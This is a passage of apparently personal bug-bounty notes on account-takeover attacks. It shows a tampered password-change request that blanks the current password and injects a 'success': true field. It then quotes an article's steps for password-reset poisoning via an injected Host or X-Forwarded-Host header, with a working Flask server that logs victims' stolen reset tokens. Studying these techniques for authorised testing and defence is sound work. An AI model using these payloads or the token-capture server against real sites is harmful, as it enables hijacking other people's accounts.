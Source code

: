 or by changing the request payload like this:

```http
POST /account/change-password HTTP/1.1
Host: xyz.com
Content-Type: application/json
Authorization: Bearer user-auth-token
{
    "current_password": "",
    "new_password": "newsecurepassword123",
    "confirm_password": "newsecurepassword123",
    "success": true                              //added parameter.
}
```

Last Tip: - Test how different HTTP methods (GET, POST, PUT, DELETE) behave when modifying credentials.


----

## $100-$20k worth Account Takeover Vulnerability | Hidden Practical Steps

source: https://infosecwriteups.com/100-20k-worth-account-takeover-vulnerability-hidden-practical-steps-fd5dd1c8a491

# 1. Password Reset Exploits

## a. Host Header Injection to Steal Tokens

#reset_poisoning

![[Pasted image 20250418141347.png]]

**Step-by-Step**:

1. **Intercept** the password reset request (Burp Suite).
2. **Inject** a custom `Host` or `X-Forwarded-Host` header pointing to your server.
3. **Capture** the token when the victim clicks the reset link.

**Python Flask Server to Log Tokens**:

```python
from flask import Flask, request    
app = Flask(__name__)    
  
@app.route('/reset-password')    
def log_token():    
    token = request.args.get('token')    
    print(f"[+] Token Stolen: {token}")    
    return "Error: Invalid token", 404    
  
if __name__ == '__main__':    
    app.run(host='0.0.0.0', port=80)
```
